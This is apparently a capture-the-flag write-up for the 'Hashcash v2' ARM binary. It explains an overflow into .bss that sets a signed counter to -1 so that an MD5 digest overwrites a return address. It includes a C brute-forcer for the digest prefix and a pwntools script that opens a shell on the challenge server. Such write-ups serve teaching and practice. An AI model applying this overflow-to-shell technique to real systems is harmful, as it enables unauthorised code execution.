


# Hashcash v2



As you can see in the image above, you are required to find a string, that starts with `nonce`, which it's MD5 hash that starts with `n` zero bytes, where `n` is the level number. At the very end (level 16) you are required to find an MD5 hash with all bytes to zero. If you find such hash, the program will do for you `system('/bin/sh')`.

You are provided with:
* `lib` directory: for libraries
* `chall` bash file: for starting up the program
* `hashcashv2` executable

Info about hashcashv2:
* Arch:     arm-32-little
* RELRO:    Full RELRO
* Stack:    Canary found
* NX:       NX enabled
* PIE:      No PIE (0x10000)

I'm not an expert on crypto but for sure, there's no way to win the game legitly. Thus, i started looking for any vulnerability in the input and i find out that the input has an huge overflow in the `stdin`, `stdout` section. The memory structure of `.data` and `.bss` is the following.



We can overwrite until `hmask`, so changing `count`, `nonce`, `stderr`, `stdin`, `stdout` and of course `hmash`. Changing `stdin` or `stdout` will lead to a segfault when performing input/ouptut operation (print, read, ...), so one of the first things i looked for was a memory leak of the libc. Unfortunately, i didn't find anything and i thought a way to change them without trigger any input/output operation.
The remaining variables in the `.bss` are:
* `count`: an signed integer variable used for addressing all of the hashes in a buffer on the stack. It is incremented every level and multiplied for 16(length of a MD5 digest) to select the address in which will be stored the current level hash.
* `nonce`: it's the random byte which starts our string that will be hashed. It's a random value and it's not changing each level. It is placed in the input buffer on `.data` before reading the input.
* `hmask`: mask used for show how many bytes are set to zero in the current level. Not very useful.
Basically, we can change `count` and `nonce`. Incrementing the value of `count` will lead to an overwriting on part of the stack we are not interesed in. The game won't return normally, there's an alarm and so the only way to reach the return address on the stack is win the game legitly. Given that the `count` variable is signed, we can decrement it! In fact, if we overwrite the `count` variable with -1(`\xff\xff\xff\xff`), we can place the hash of the current input in the frame of a function called in the main function. The first function that will be called is the function that generates the hash and place it(using the `count` variable) in the buffer of the hash. With `count` equal to -1 this function overwrite its return address with the lowest 4 bytes of the current hash.

## Idea! 

Overwrite the return address of the hash function with a choosen address, so finding a collision on the first 4 byte of the hash.
The only address we can use is 0x00010C70 which performs: <br />
LDR     R0, =aBinSh     ; "/bin/sh" <br />
BL      system <br />
<br />
N.B.: This address won't lead to any input/output operation, so it's perfect.

## String structure

Finally, we just need to create a string which its MD5 hash has its 4 byte equal to 0x00010C70.
The string is composed by:
* 1 random byte(`nonce`): we can not choose nor change it.
* 1023 bytes: i placed them to `\x00`.
* 20 bytes: bytes for `stderr`, `stdin`, `stdout` and 4 unused bytes.
* `count` bytes: they have to be placed to `\xff\xff\xff\xff`
* 4 bytes called `a`, `b`, `c` and `d`: i placed these bytes at the end in order to iterate them to find a collision.

## Problem

The only part of this string we cannot control is the `nonce` byte, so i decided to fill a list of `a`, `b`, `c` and `d` values that bring to a collision, for each value of `nonce`.

## Script and collision generator

I used the following program to generate the collision.

```C
#include <stdbool.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <openssl/md5.h>


void printHash(char *digest)
{
    int i;

    printf("MD5: ");
    for(i = 0; i < 16; i++)
    {
        if (digest[i])
        {
            printf("%02x", digest[i] & 0xff);
        }
        else
        {
            printf("00");
        }
    }
    printf("\n");
}

void main(int argc, char const *argv[])
{
    unsigned char digest[16];
    MD5_CTX initial;
    MD5_CTX final;
    unsigned char data[1048];
    unsigned char end[4];
    int i, a, b, c , d;
    bool found;


    for(i = 1; i < 256; i++)
    {
        memset(data, 0, 1048);
        data[0] = i;
        data[1044] = 0xff;
        data[1045] = 0xff;
        data[1046] = 0xff;
        data[1047] = 0xff;
        MD5_Init(&initial);
        MD5_Update(&initial, data, 1048);
        found = false;
        for(a = 0; a < 256 && found == false; a++)
        {
            for(b = 0; b < 256 && found == false; b++)
            {
                for(c = 0; c < 256 && found == false; c++)
                {
                    for(d = 0; d < 256 && found == false; d++)
                    {
                        memcpy(&final, &initial, sizeof(MD5_CTX));
                        end[0] = (char) a;
                        end[1] = (char) b;
                        end[2] = (char) c;
                        end[3] = (char) d;
                        MD5_Update(&final, end, 4);
                        MD5_Final(digest, &final);
                        if((char) digest[0] == 0x70)
                        {
                            if((char) digest[1] == (char) 0x0C)
                            {
                                if((char) digest[2] == (char) 0x01)
                                {
                                    if((char) digest[3] == (char) 0x00)
                                    {
                                        printf("i: %02x\n", i & 0xff);
                                        printf("a: %02x\n", a & 0xff);
                                        printf("b: %02x\n", b & 0xff);
                                        printf("c: %02x\n", c & 0xff);
                                        printf("d: %02x\n", d & 0xff);
                                        found = true;
                                        printHash(digest);
                                    }
                                }
                            }                           
                        }
                    }
                }
            }
        }
    }
}
```

It's very ignorant but, as i said, i'm not good on crypto stuff. However, it generates a collision at most every 3 min.
Once generated a new collision, the `a`, `b`, `c` and `d` are placed in a list of the following script.

```Python
from pwn import *
import md5

abcd_array = ['\x81\xf3\x1f\x02', '\x6a\xbc\xc3\x37']
while True:
    try:
        #conn = process(argv=['qemu-arm', '-g', '4000', '-L', './', './hashcashv2_patched'])
        conn = remote('142.93.39.178 2023', 2023)
        conn.recvuntil('\x1B[1mnonce:\x1B[0m 0x')
        byte = conn.recvuntil('\n')
        byte = int(byte, 16)
        conn.recvuntil('\x1B[1minput:\x1B[0m ')
        data_payload = ('\x00' * 1023)
        #libc std
        bss_payload = '\x00' * 16
        #completed
        bss_payload += '\x00' * 4
        #count
        bss_payload += '\xff\xff\xff\xff'
        #"proof of work"
        bss_payload += abcd_array[byte]
        payload = data_payload + bss_payload
        conn.sendline(payload)
        conn.interactive()
    except Exception as e:
        conn.close()
        continue
```
As you can see, there are only two values in the list because i got lucky and the `nonce` byte was 0x00 or 0x01.
<br />
`SECT{Y0U_kn0w_i7s_b@d_wHeN_cAn4R1es_n33d_C@NaRi3z}`